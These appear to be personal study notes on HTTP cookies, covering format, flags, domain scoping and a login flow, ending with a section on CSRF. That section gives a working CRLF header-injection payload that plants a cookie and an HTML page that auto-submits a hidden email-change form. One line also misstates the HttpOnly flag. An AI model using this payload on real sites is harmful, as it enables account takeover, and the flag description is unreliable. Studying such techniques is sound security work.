 
### General Notes

> Created to make [[HTTP]] [[Protocol]] stateful.
> They are textual information installed by a website into the Cookie Jar of the **browser**.
> Cookie Jar is storage space where web browser stores cookies.
> Storing data on the client side instead of the server side ([[Sessions]]).

> Can be viewed in JavaScript using `document.cookie`

---

### Cookie Format

> Server can set cookie via the `Set-Cookie` HTTP header in a response message
> Cookies contain the following data:
* Cookie Content: Text Key-Value pairs that contain data
* Expiration Date
* Path: sends the cookies to all subsequent requests to this path and everything under it.
* Domain
* HTTP Only Flag: only HTML technology can read the cookie. Secure against [[Cross Site Scripting (XSS)]].
* Secure Flag: Cookies are only sent over [[HTTPS]]

> Cookies are sent to the valid domain and path and only when they are not expired and according to the flags.
> If domain is not set, the Host-only flag is set, and cookie is only sent to the exact hostname. The domain becomes set to the hostname.

---

### Cookie Protocol

> Login Example: 
1. Browser sends a POST request with username and password
2. Server sends a response with a `set-cookie` header to tell the browser to install the cookie
3. For every further request, the browser considers the cookie data and flags
4. If the checks pass, then a cookie will be inserted in the header of the browser request

> What this does, is that the browser now manages to maintain a stateful connection to the server, meaning that all subsequent requests dont need authentication again.

---

### Cookie Domain

> A cookie with a domain value specified is only sent to the target with the same domain value.
> A cookie with a domain value different from the target but is a suffix of the target domain then it is also sent.

> Higher level subdomains cannot set cookies for lower level subdomains.
> Lower level subdomains can set cookies for higher level subdomains.

> Cookie with `host-only-flag` set to true is one that does not have a domain value. Sent only to target domain that set it.

---

### Modifying Cookies for [[CSRF]]

>A technique to check for adding cookies is through header injection.
```
/?search=mins
Set-Cookie: csrfKey=IBuIZ44nmISVeACecCzxOeLyT1YIxL9p;
```
> Adding a new line then adding the `Set-Cookie` header with the cookie. To use it, it must be URL-encoded. [[Web Encoding]].
```
/?search=test%0d%0aSet-Cookie:%20csrfKey=IBuIZ44nmISVeACecCzxOeLyT1YIxL9p%3b
```

> To use it in the HTML payload to set a cookie, replace the `script` tags with:
```HTML
<img src="https://URL/?search=test%0d%0aSet-Cookie:%20csrfKey=IBuIZ44nmISVeACecCzxOeLyT1YIxL9p%3b%20SameSite=None" onerror="document.forms[0].submit()">
```
> This loads the page that sets the cookie, then since it isnt an image, the `onerror` attribute is fired submitting the form.

``` HTML
<html> 
	<body> 
		<form action="https://URL/path" method="POST"> 
			<input type="hidden" name="email" value="newmins@mins.com" /> 
			<input type="hidden" name="csrf" value="<csrf-token>" />
		</form> 
		<img src="https://URL/?search=test%0d%0aSet-Cookie:%20csrfKey=IBuIZ44nmISVeACecCzxOeLyT1YIxL9p%3b%20SameSite=None" onerror="document.forms[0].submit()">
	</body> 
</html>
```

---
